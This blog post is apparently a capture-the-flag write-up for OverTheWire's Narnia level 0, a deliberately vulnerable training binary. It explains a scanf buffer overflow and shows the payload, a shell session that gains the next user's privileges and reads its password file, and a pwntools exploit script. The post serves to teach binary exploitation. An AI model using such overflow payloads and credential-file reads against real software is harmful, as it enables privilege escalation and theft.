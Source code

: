 ```yaml
---
layout: post
title:  "Overthewire - Narnia 0-4"
date:   2020-04-26 15:07:19
categories: [Binary Exploitation]
excerpt: "This blogpost contains the solutions for Narnia series of challenges from overthewire, this category of challenges are aimed at beginners to binary exploitation.

Let's take a look at the code of this program.The below C code is the source code for the first challenge in the Narnia series of challenges from Overthewire."
comments: true
---
```


This blogpost contains the solutions for Narnia series of challenges from overthewire, this category of challenges are aimed at beginners to binary exploitation.

Let's take a look at the code of this program.The below C code is the source code for the first challenge in the Narnia series of challenges from Overthewire.
## Narnia 0-1
![source](/img/source.png){: .align-left}


From the code it's clear we need to give val the value of 0xdeadbeef to get a shell as narnia1 user.
By observing the code we can spot the issue from scanf() function. The scanf() is used to get the input for buffer buff. and this function have no bound checkings on input, buf variable is 20 bytes long but the scanf() reads in 24 bytes hence we can overwrite the variable “val” with any value we like.
```

```bash
file narnia0
narnia0: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0840ec7ce39e76ebcecabacb3dffb455cfa401e9, not stripped
```
Our target binary is an ELF 32-bit binary.ELF is Executable Linkable Format which consists of a symbol look-ups and relocatable table, that is, it can be loaded at any memory address by the kernel.

### Exploitation

Let's send some crafted input to the program and monitor

```python
narnia0@narnia:/narnia$ python -c 'print 20 * "A" + "CCCC"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAACCCC
val: 0x43434343
WAY OFF!!!!
narnia0@narnia:/narnia$ 
```
Great we have overwritten the val variable with 0x43434343 which is our 4 "C". Now we know we can overite the val variable . We just need to replace "C" with 0xdeadbeef which is the correct value the program accept. Before that we need to convert 0xdeadbeef to little endian format as we are on little endian machine.
> 0xdeadbeef to little endian "\xef\xbe\xad\xde".

### Grabbing the flag:

```python
narnia0@narnia:/narnia$ (python -c 'print 20*"A" + "\xef\xbe\xad\xde"'; cat;) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
id
uid=14001(narnia1) gid=14000(narnia0) groups=14000(narnia0)
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
```

> Full exploit


```python
from pwn import *

context(arch='i386', os='linux')
context.log_level = 'debug'
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', port=2226, password='narnia0')
sh = s.run('/narnia/narnia0')
payload = ""
payload = 'A'*20 + '\xef\xbe\xad\xde'
s.sendline(payload)
sh.recvline(s)
s.sendline('cat /etc/narnia_pass/narnia1')
sh.recvline(sh)
```

### Conclusion 
Pwned! Nice and simple bufferoverflow challenge .Next challenge is Narnia1.


>

